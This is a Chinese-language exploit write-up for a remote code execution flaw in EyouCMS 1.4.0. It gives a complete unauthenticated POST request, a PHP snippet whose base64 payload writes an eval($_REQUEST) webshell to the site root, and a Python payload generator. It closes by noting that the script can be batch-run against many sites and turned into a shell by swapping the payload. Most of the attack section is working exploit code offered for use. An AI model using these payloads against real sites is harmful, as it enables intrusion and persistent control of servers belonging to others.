

# 1、漏洞描述

eyoucms V1.4.0版本存在远程命令执行漏洞，在网站前台无需任何辅助，可直接写入webshell。

漏洞影响版本只有一个，实际环境中能不能遇到，看脸了。。

# 2、影响范围

1.4.0单一版本

# 3、漏洞复现

## 3.1、坑点

先上POST包，提交后就在网站根目录下生成了testtest.php的poc文件：

```
POST /EyouCMS-V1.4.1-UTF8-SP2/?m=api&c=ajax&a=get_tag_memberlist HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-type: application/x-www-form-urlencoded
DNT: 1
Connection: close
Cookie: PHPSESSID=q28egmgkmmogh09pm1gn9n2bj2; home_lang=cn; admin_lang=cn
Upgrade-Insecure-Requests: 1
Content-Length: 297

attarray=eyJ7cGhwfTEyM3svcGhwfSI6ICJ7cGhwfWZpbGVfcHV0X2NvbnRlbnRzKCcuL3Rlc3R0ZXN0LnBocCcsYmFzZTY0X2RlY29kZShiJ1BEOXdhSEFnWldOb2J5QWlkR2hwY3lCcGN5QmhJR1p5YVdWdVpHeDVJSFJsYzNRc0lGQnNaV0Z6WlNCamFHVmpheUJoYm1RZ2NtVndZV2x5SUhWd2JHOWhaQ0IyZFd4dVpYSmhZbWxzYVhScFpYTXVJajgrJykpO3svcGhwfSJ9&htmlcode=111111
```

如下图，注意箭头标的几个位置，POST方法、URL、X-Requested-With、attarray参数内容，尤其是X-Requested-With和attarray参数内容（payload），payload生成方法后面详说。

坑点在这：

1. 若不是用的post方法，会失败；
2. URL中?后面的内容一定要按图中的这样写；
3. 请求的header中，X-Requested-With: XMLHttpRequest 一定要有，否则手工验证的时候，即使返回的读取成功，但还是没有写入成功shell；
4. payload生成过程踩过坑了，按下面3.2中的方法生成即可；



## 3.2、生成payload

根据源码中的漏洞细节，其中eval会被替换为intval，需要将webshell进行base64加密传输绕过检测，同时构造将webshell写入目标机器的payload，将php标签转换为{php}，将payload转换为数组格式，然后将数组转换为json格式，最后对其base64加密，生成最终的payload。

先看一下怎么用php生成这样的一个payload，上代码：

=>符号左边的是数组名，可自定义；右边的是实际的payload，这里是写的一句话。

```
<?php
print base64_encode(json_encode(array("{php}file_put_contents('./testtest.php',base64_decode('PHBocCBldmFsKCRfUkVRVUVTVFtjZXNoaV0pOz8'));{/php}"=>"{php}file_put_contents('./testtest.php',base64_decode('PHBocCBldmFsKCRfUkVRVUVTVFtjZXNoaV0pOz8+'));{/php}")));
```

再看一下python如何生成这样的一个payload，上代码：

过程都是一样的。

```
def creat_payload():
    payload_tmp1 = '''<?php echo "this is a friendly test, Please check and repair upload vulnerabilities."?>'''
    payload_tmp1_base64 = base64.b64encode(payload_tmp1.encode('utf-8'))
    payload_tmp2 = {
        "{php}123{/php}": "{php}file_put_contents('./testtest.php',base64_decode(" + str(
            payload_tmp1_base64) + "));{/php}"
    }
    payload = base64.b64encode(json.dumps(payload_tmp2).encode('utf-8'))
    return payload
```

不过这里php生成的payload中，解密来看的话，/会被转义，即\/，但不影响实际效果。

# 4、poc

搭配框架可批量，若要getshell，替换脚本中的payload_tmp1内容即可。